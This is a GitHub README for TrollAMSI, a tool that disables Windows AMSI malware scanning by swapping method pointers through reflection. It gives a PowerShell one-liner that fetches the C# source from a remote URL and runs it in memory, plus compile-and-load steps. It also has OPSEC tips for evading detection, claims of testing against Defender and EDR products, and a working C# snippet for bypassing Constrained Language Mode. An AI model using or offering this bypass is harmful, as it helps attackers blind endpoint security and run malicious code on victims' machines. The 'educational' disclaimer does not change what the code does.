 # TrollAMSI
This new technique is called "Reflection with method swapping". Opens doors for other techniques such as ETW and CLM possibly(?).
Uses reflection to get a handle to the "ScanContent" method and updates it to point to a method we control.

## Benefits
- No P/Invoke or win32 API calls used
- No amsi.dll patching
  
## Usage 

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - CLM enforcement
   ```
          public static void Troll()
        {
            MethodInfo o = typeof(System.Management.Automation.Alignment).Assembly.GetType("System.Management.Automation.Security.SystemPolicy").GetMethod("GetS" + "ystemLoc" + "kdow" + "nPolicy", System.Reflection.BindingFlags.Public | System.Reflection.BindingFlags.Static);
            MethodInfo t = typeof("<Insert Class here>").GetMethod("M", BindingFlags.Static | BindingFlags.NonPublic);
            RuntimeHelpers.PrepareMethod(o.MethodHandle);
            RuntimeHelpers.PrepareMethod(t.MethodHandle);
            Marshal.Copy(new IntPtr[] { Marshal.ReadIntPtr(t.MethodHandle.Value + 8) }, 0, o.MethodHandle.Value + 8, 1);
        }
        private static int M() { return 0; }
  ```
  - maybe there's more?
  
## Disclaimer
Should only be used for educational purposes!
